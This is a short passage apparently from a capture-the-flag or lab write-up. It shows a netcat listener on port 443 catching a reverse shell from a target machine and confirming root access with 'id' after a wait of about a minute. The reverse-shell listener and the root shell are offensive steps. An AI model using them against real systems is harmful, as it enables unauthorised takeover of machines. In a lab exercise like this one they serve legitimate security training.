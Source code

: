Then, we start a listener on our machine:  

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.1.116] from (UNKNOWN) [192.168.1.179] 41722
id
uid=0(root) gid=0(root) grupos=0(root)
```

![alt text](/assets/token-of-love/image-13.png)  

After waiting for a maximum of one minute, we successfully obtain a root shell.